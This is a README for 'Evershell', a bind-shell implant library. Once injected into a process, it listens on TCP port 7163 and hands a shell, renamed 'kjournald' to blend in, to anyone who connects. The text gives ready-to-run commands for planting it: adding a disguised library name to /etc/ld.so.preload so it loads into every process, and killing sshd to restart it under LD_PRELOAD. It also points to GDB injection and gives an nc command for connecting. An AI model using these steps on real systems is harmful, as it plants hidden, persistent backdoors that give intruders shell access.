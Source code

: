 Evershell
=========
Injected as a library into another process, evershell listens on a TCP port
(7163 by default) and every time it gets a connection, double-forks a shell
and sets the shell's stdio to the connection.  The shell's name (i.e.
`argv[0]`) is set to `kjournald` by default.

For legal use only.

Configuration
-------------
Almost none.  The listen port and the shell's name are configured with the
preprocessor macros `PORT` and `SHELLNAME`, respectively, near the top of the
file.  The defaults will probably work fine in most cases.

Installation
------------
How to get a library loaded into a "normal" process is can get very OS-specific
and on Linux, can even be distro-specific.  Below are a few ways to do it.
Pull requests with more are welcome.

### `/etc/ld.so.preload`
On platforms which support it, libraries listed in `/etc/ld.so.preload` will
be loaded into all processes.  On Linux this means systemd because obviously
it's a good idea to have a dynamically-linked, injectable systemd.

Example, assuming evershell has been put in `/usr/lib/libinit.so.4`:
```bash
echo /usr/lib/libinit.so.4 >> /etc/ld.so.preload
```

### GDB
See https://magisterquis.github.io/2018/03/11/process-injection-with-gdb.html

### `LD_PRELOAD`
Set the `LD_PRELOAD` environment variable to the path to the library and start
a normal, long-running process.

Example, assuming evershell is called `libmath.so.4`:
```bash
pkill -9 sshd && LD_PRELOAD=libmath.so.4 /usr/sbin/sshd

Connection
----------
For the most part, it should be as simple as
```bash
nc -v <TARGET> 7163
```
